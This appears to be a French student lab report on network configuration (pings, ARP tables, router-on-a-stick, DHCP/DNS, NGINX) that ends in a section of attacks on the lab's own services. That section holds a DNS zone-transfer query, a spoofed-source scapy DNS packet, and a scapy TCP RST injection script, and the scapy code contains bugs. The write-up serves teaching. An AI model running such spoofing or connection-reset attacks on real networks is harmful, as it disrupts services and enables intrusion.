
# I - Setup réseau initial

## Ping d'un client du LAN1 vers un client du LAN2

Commande : `ping 10.3.2.1`

```plaintext
84 bytes from 10.3.2.1 icmp_seq=1 ttl=62 time=52.200 ms
84 bytes from 10.3.2.1 icmp_seq=2 ttl=62 time=40.180 ms
84 bytes from 10.3.2.1 icmp_seq=3 ttl=62 time=37.360 ms
84 bytes from 10.3.2.1 icmp_seq=4 ttl=62 time=36.120 ms
84 bytes from 10.3.2.1 icmp_seq=5 ttl=62 time=42.960 ms
```

## Wireshark : Afficher les adresses MAC des routeurs

### R1
Commande : `show arp`

```plaintext
Protocol  Address          Age (min)  Hardware Addr   Type   Interface
Internet  10.3.12.1               -   c401.05c3.0001  ARPA   FastEthernet0/1
Internet  10.3.12.2              17   c402.05e1.0001  ARPA   FastEthernet0/1
Internet  10.3.1.1                8   0050.7966.6800  ARPA   FastEthernet1/0
Internet  192.168.122.1          11   5254.0023.04c2  ARPA   FastEthernet0/0
Internet  192.168.122.190         -   c401.05c3.0000  ARPA   FastEthernet0/0
Internet  10.3.1.254              -   c401.05c3.0010  ARPA   FastEthernet1/0
```

### R2
Commande : `show arp`

```plaintext
Protocol  Address          Age (min)  Hardware Addr   Type   Interface
Internet  10.3.12.1              17   c401.05c3.0001  ARPA   FastEthernet0/1
Internet  10.3.12.2               -   c402.05e1.0001  ARPA   FastEthernet0/1
Internet  10.3.2.1                8   0050.7966.6802  ARPA   FastEthernet1/0
Internet  10.3.2.254              -   c402.05e1.0010  ARPA   FastEthernet1/0
```

## Prouvez que vous avez déjà un accès internet sur R1

Commande : `ping 1.1.1.1`

```plaintext
Type escape sequence to abort.
Sending 5, 100-byte ICMP Echos to 1.1.1.1, timeout is 2 seconds:
!!!!!
Success rate is 100 percent (5/5), round-trip min/avg/max = 88/116/184 ms
```

## Accès internet LAN1

Commande : `ping 8.8.8.8`

```plaintext
84 bytes from 8.8.8.8 icmp_seq=1 ttl=111 time=65.656 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=111 time=49.001 ms
```

## Accès internet LAN2

Commande : `ping 8.8.8.8`

```plaintext
84 bytes from 8.8.8.8 icmp_seq=1 ttl=110 time=87.788 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=110 time=54.010 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=110 time=56.427 ms
```


# II - Router-on-a-stick

## Tests de ping

### PC1

Commande : `show ip`

```plaintext
NAME        : PC1[1]
IP/MASK     : 10.3.1.1/24
GATEWAY     : 10.3.1.254
DNS         :
MAC         : 00:50:79:66:68:00
LPORT       : 20018
RHOST:PORT  : 127.0.0.1:20019
MTU         : 1500
```

Commande : ` PC1> ping 10.3.2.1`

```plaintext
84 bytes from 10.3.2.1 icmp_seq=1 ttl=63 time=34.889 ms
84 bytes from 10.3.2.1 icmp_seq=2 ttl=63 time=23.320 ms
84 bytes from 10.3.2.1 icmp_seq=3 ttl=63 time=21.801 ms
84 bytes from 10.3.2.1 icmp_seq=4 ttl=63 time=22.393 ms
84 bytes from 10.3.2.1 icmp_seq=5 ttl=63 time=21.761 ms
```

### R1

Commande : `R1#ping 8.8.8.8`

```plaintext
Type escape sequence to abort.
Sending 5, 100-byte ICMP Echos to 8.8.8.8, timeout is 2 seconds:
!!!!!
Success rate is 100 percent (5/5), round-trip min/avg/max = 96/137/188 ms



### PC2

Commande : `ping 8.8.8.8`

```plaintext
84 bytes from 8.8.8.8 icmp_seq=1 ttl=126 time=38.008 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=126 time=40.151 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=126 time=36.562 ms
```

### PC3

Commande : `ping 8.8.8.8`

```plaintext
84 bytes from 8.8.8.8 icmp_seq=1 ttl=126 time=42.084 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=126 time=42.280 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=126 time=47.633 ms
84 bytes from 8.8.8.8 icmp_seq=4 ttl=126 time=41.187 ms

```


#III - Services dans le LAN
 ##Prouvez avec un VPCS (DNS + DHCP)

##PC4> ip dhcp
```plaintext
DORA IP 10.3.2.10/24 GW 10.3.2.254
```
##PC4> show ip
```plaintext
NAME        : PC4[1]
IP/MASK     : 10.3.2.10/24
GATEWAY     : 10.3.2.254
DNS         : 10.3.3.1  1.1.1.1
DHCP SERVER : 10.3.2.253
DHCP LEASE  : 41342, 41345/20672/36176
MAC         : 00:50:79:66:68:03
LPORT       : 20026
RHOST:PORT  : 127.0.0.1:20027
MTU         : 1500
```
```plaintext
PC4> ping efrei.fr
efrei.fr resolved to 51.255.68.208

84 bytes from 51.255.68.208 icmp_seq=1 ttl=52 time=40.828 ms
84 bytes from 51.255.68.208 icmp_seq=2 ttl=52 time=41.031 ms
84 bytes from 51.255.68.208 icmp_seq=3 ttl=52 time=39.607 ms
84 bytes from 51.255.68.208 icmp_seq=4 ttl=52 time=37.359 ms
```
```plaintext
PC4> ping dns.tp3.b2
dns.tp3.b2 resolved to 10.3.3.1

84 bytes from 10.3.3.1 icmp_seq=1 ttl=63 time=19.730 ms
84 bytes from 10.3.3.1 icmp_seq=2 ttl=63 time=16.407 ms
84 bytes from 10.3.3.1 icmp_seq=3 ttl=63 time=15.260 ms
```
##  client (NGINX)
Commande : `debian@debian:/etc/network$ curl http://web.tp3.b2`

```plaintext
<h1>Bienvenue sur web.tp3.b2</h1>
```

Commande : `debian@debian:/etc/network$ curl http://supersite.tp3.b2`

```plaintext
<h1>Bienvenue sur supersite.tp3.b2</h1>
```

##IV - Attaques sur les services en place
 ##Requêter l'enregistrement AXFR
```plaintext
dig axfr tp3.b2 -p53 @10.3.3.10

; <<>> DiG 9.16.23-RH <<>> axfr tp3.b2 -p53 @10.3.3.10
;; global options: +cmd
tp3.b2.                 86400   IN      SOA     dns.tp3.b2. admin.tp3.b2. 201900
tp3.b2.                 86400   IN      NS      dns.tp3.b2.
dns.tp3.b2.             86400   IN      A       10.3.3.10
supersite.tp3.b2.       86400   IN      A       10.3.3.12
web.tp3.b2.             86400   IN      A       10.3.3.12
tp3.b2.                 86400   IN      SOA     dns.tp3.b2. admin.tp3.b2. 201900
;; Query time: 43 msec
;; SERVER: 10.3.3.10#53(10.3.3.10)
;; WHEN: Sat Jan 18 17:59:45 UTC 2025
;; XFR size: 6 records (messages 1, bytes 221)

```
##flood
```plaintext
from scapy.all import *
reponse = sr1(IP(dst="10.3.3.1", src="10.3.1.1")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="tp3.b2", qtype="AXFR")),verbose=0)
print(reponse[DNS].summary()
```
## wireshark =  flood.pcap
##attaque TCP RST
```plaintext
win=512
tcp_rst_count = 10
your_iface = "enp0s3"

t = sniff(iface=your_iface, count=1, lfilter=lambda x: x.haslayer(TCP) )
t = t[0]

tcpdata = {
    'src': t[IP].src,
    'dst': t[IP].dst,
    'sport': t[TCP].sport,
    'dport': t[TCP].dport,
    'seq': t[TCP].seq,
    'ack': t[TCP].ack
}

max_seq = tcpdata['ack'] + tcp_rst_count * win
seqs = range(tcpdata['ack'], max_seq, int(win / 2))
requete = IP(src=tcpdata['dst'], dst=tcpdata['src']) / TCP(sport=tcpdata['dport'], dport=tcpdata['sport'], flags="R", window=win, seq=seqs[0])

for seq in seqs:
    p.seq = seq
    send(requete, verbose=0, iface=your_iface)
    print('TCP RESET REUSSI !!')
```
## wireshark =  tcp_rst.pcap
